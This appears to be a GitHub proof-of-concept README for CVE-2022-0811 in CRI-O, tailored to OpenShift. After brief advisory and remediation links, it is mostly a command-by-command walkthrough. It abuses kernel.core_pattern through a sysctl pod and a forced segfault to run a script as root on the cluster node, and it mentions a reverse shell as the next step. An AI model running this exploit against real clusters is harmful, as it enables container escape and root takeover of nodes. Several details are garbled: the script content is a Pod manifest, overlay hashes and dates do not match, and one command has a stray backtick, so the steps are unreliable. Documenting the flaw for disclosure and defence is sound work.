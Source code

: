 # Proof of Concept: Leveraging CVE-2022-0811 to Compromise Kubernetes 
##### Many thanks to CrowdStrike cloud security researchers.  This quick quide was created with their findings and tailored for OpenShift specifically.

## Description
A flaw was found in CRI-O in the way it set kernel options for a pod. This issue allows anyone with rights to deploy a pod on a Kubernetes cluster that uses the CRI-O runtime to achieve a container escape and arbitrary code execution as root on the cluster node, where the malicious pod was deployed.

## Directly Affected Software
- CRI-O version 1.19+

## Indirectly Affected Software and Platforms
### While the vulnerability is in CRI-O, software and platforms that depend on it are also likely to be vulnerable, including:
- OpenShift 4.6+
- Oracle Container Engine for Kubernetes

## Remediation
- ### [Red Hat OpenShift - CVE-2022-0811](https://access.redhat.com/security/cve/cve-2022-0811)

## External References
- ### [CrowdStrike](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/)
- ### [GitHub cri-o](https://github.com/cri-o/cri-o/security/advisories/GHSA-6x2m-w449-qwx7)

# Overview
#### This proof of concept (POC) uses a malicious PodSpec to set the kernel.core_pattern kernel parameter, which specifies how the kernel should react to a core dump. In this case, we’ll tell it to execute a binary hosted in another pod. That binary will be run as root outside of any container. Finally, we’ll trigger a core dump causing the kernel to invoke the malicious executable.

# Startup Pod to Host Malicious Executable
```
oc create -f ./malicious-script-host.yaml
```
`pod/malicious-script-host created`

# Determine Root Path From Host Mount Namespace
#### This is the path to the root of the container from the perspective of the kernel.
```
oc exec malicious-script-host -- mount | grep overlay | awk -F, '{ print $6 }'
```
`upperdir=/var/lib/containers/storage/overlay/3ef1281bce79865599f673b476957be73f994d17c15109d2b6a426711cf753e/diff`
# Copy contents of malicious.sh
```
oc exec malicious-script-host -- /bin/bash -c "cat <<EOF > /tmp/malicious.sh
apiVersion: v1
kind: Pod
metadata:
  name: malicious-script-host
spec:
  containers:
  - name: ubi-8
    image: registry.access.redhat.com/ubi8/ubi:8.5-236
    command: ["tail", "-f", "/dev/null"]
EOF"
```
# Modify script permissions and verify
```
oc exec malicious-script-host -- /bin/bash -c 'chmod 755 /tmp/malicious.sh && ls -al /tmp/malicious.sh'
```
`-rwxr-xr-x. 1 root root 197 Mar 17 19:22 /tmp/malicious.sh`

# Use Second Pod to Point Core Pattern to Malicious Script
### NOTE: You must ensure this pod runs on the same node as the malicious script pod. 

```
oc create -f ./sysctl-set.yaml
```
`pod/sysctl-set created`
```
oc get pods
```
```
NAME                    READY   STATUS              RESTARTS   AGE
malicious-script-host   1/1     Running             0          14m
sysctl-set              0/1     ContainerCreating   0          68s
```
### Whether or not the sysctl-set pod starts, it will successfully update the node-wide core_pattern to point into our malicious-script-host container. 
```
oc exec malicious-script-host -- /bin/bash -c "cat /proc/sys/kernel/core_pattern"
```
`|/var/lib/containers/storage/overlay/3ef1281bce79865599f673b476957be73f994d17c15109d2b6a426711cf753e6/diff/tmp/malicious.sh #`

# First enable core dumps:
```
oc exec malicious-script-host -- /bin/bash -c "ulimit -c unlimited && ulimit -c"
```
`unlimited`

#### Note for ubi8 image ps will need to be installed via
```
oc exec malicious-script-host -- /bin/bash -c "yum install procps-ng -y && ps --version"
```
```
Installed:
  procps-ng-3.3.15-6.el8.x86_64
ps from procps-ng 3.3.15
```
# Now trigger the core dump:
```
oc exec -it malicious-script-host -- /bin/bash
```
```
tail -f /dev/null &
```
```
ps
```
```
PID   USER     TIME  COMMAND
    1 root      0:00 tail -f /dev/null
   34 root      0:00 /bin/bash
   42 root      0:00 tail -f /dev/null
   43 root      0:00 ps
```
```
kill -SIGSEGV 42`
```
`[1]+  Segmentation fault (core dumped) tail -f /dev/null`
# Verify Malicious Script Ran :boom: :beer:

```
oc exec malicious-script-host -- /bin/bash -c 'cat /output'
```
```
Wed Feb 23 14:20:07 UTC 2022
root
ocp-cluster
```
##### This script was invoked by the kernel outside of the container namespace with root privileges. A real attacker could, as an example, run a reverse shell and gain full control of the node.
